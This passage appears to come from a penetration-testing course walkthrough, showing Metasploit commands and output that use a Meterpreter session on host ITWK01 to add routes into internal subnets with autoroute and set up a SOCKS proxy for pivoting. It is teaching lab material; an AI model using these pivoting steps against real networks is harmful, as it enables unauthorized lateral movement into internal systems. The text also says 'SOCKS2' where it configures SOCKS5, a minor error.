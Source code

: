 Now the only session left is the Meterpreter session created by executing met.exe as user luiza. In addition, the result of route print states that there are no routes defined. Next, let's activate the module multi/manage/autoroute in which we have to set the session ID as value for the option SESSION. Then, let's enter run to launch the module.

```bash
msf6 exploit(windows/smb/psexec) > use multi/manage/autoroute

msf6 post(multi/manage/autoroute) > show options

Module options (post/multi/manage/autoroute):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CMD      autoadd          yes       Specify the autoroute command (Accepted: add, autoadd, print, delete, default)
   NETMASK  255.255.255.0    no        Netmask (IPv4 as "255.255.255.0" or CIDR as "/24"
   SESSION                   yes       The session to run this module on
   SUBNET                    no        Subnet (IPv4, for example, 10.10.10.0)

msf6 post(multi/manage/autoroute) > sessions -l

Active sessions
===============

  Id  Name  Type                     Information            Connection
  --  ----  ----                     -----------            ----------
  12         meterpreter x64/windows  ITWK01\luiza @ ITWK01  192.168.119.4:443 -> 127.0.0.1 ()


msf6 post(multi/manage/autoroute) > set session 12
session => 12

msf6 post(multi/manage/autoroute) > run

[!] SESSION may not be compatible with this module:
[!]  * incompatible session platform: windows
[*] Running module against ITWK01
[*] Searching for subnets to autoroute.
[+] Route added to subnet 172.16.5.0/255.255.255.0 from host's routing table.
[+] Route added to subnet 192.168.50.0/255.255.255.0 from host's routing table.
[*] Post module execution completed
```

autoroute added 172.16.5.0/24 to the routing table.

We could now use the psexec module as we did before, but we can also combine routes with the server/socks_proxy auxiliary module to configure a SOCKS2 proxy. This allows applications outside of the Metasploit Framework to tunnel through the pivot on port 1080 by default. We set the option SRVHOST to 127.0.0.1 and VERSION to 5 in order to use SOCKS version 5.

```bash
msf6 post(multi/manage/autoroute) > use auxiliary/server/socks_proxy 

msf6 auxiliary(server/socks_proxy) > show options

Module options (auxiliary/server/socks_proxy):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   no        Proxy password for SOCKS5 listener
   SRVHOST   0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT   1080             yes       The port to listen on
   USERNAME                   no        Proxy username for SOCKS5 listener
   VERSION   5                yes       The SOCKS version to use (Accepted: 4a, 5)
```